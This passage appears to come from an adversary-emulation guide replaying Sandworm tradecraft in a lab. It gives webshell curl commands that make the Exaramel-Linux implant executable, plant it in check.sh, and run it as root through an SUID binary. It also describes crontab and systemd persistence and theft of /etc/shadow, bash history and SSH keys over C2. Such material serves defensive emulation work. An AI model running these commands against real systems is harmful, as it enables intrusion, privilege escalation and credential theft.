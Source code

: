 Make Exaramel-Linux executable via `chmod`.

```bash
# P.A.S. Webshell has the ability to modify file permissions.

curl --insecure "https://10.0.1.5/search.php?cmd=chmod+755+centreon_module_linux_app64"
```

Insert 1-liner into `/var/www/html/include/tools/check.sh`; the 1-liner executes Exaramel-Linux.

```bash
curl --insecure "https://10.0.1.5/search.php?cmd=echo%20%27%2Fvar%2Fwww%2Fhtml%2Fcentreon_module_linux_app64%20%26%27%20%3E%3E%20%2Fvar%2Fwww%2Fhtml%2Finclude%2Ftools%2Fcheck.sh"
```

Execute SUID binary, `/bin/backup`; this binary executes `check.sh` from the previous step, which causes Exaramel-Linux to be executed with root privileges.

```bash
# Exaramel for Linux can execute commands with high privileges via a specific binary with setuid functionality.

curl --insecure "https://10.0.1.5/search.php?cmd=/bin/backup" &
```

[Source Code](../../Resources/suid-binary/suid-binary.c)

:warning: Switch to your controlServer tab; you should have a new callback.

Take a screenshot of the new implant and paste in slack.

### :microscope: Cited Intelligence

* <https://www.justice.gov/opa/press-release/file/1328521/download>

<br>

## Step 14 - Exaramel Linux Persistence

:microphone: `voice track`

During this step, Sandworm establishes crontab and systemd persistence.

Sandworm then exfils /etc/shadow, bash history, and fherbert's SSH keys over the existing C2 channel.

In the next step, Sandworm uses credentials derived from the /etc/shadow file to attack a lateral host.

### ☣️ Procedures

From your control server tab, split the window horizontally:

```
Right click > Split Horizontally
```

In your lower terminal, enter the control server directory. Interaction with Exaramel-Linux (the implant) will occur through this terminal.
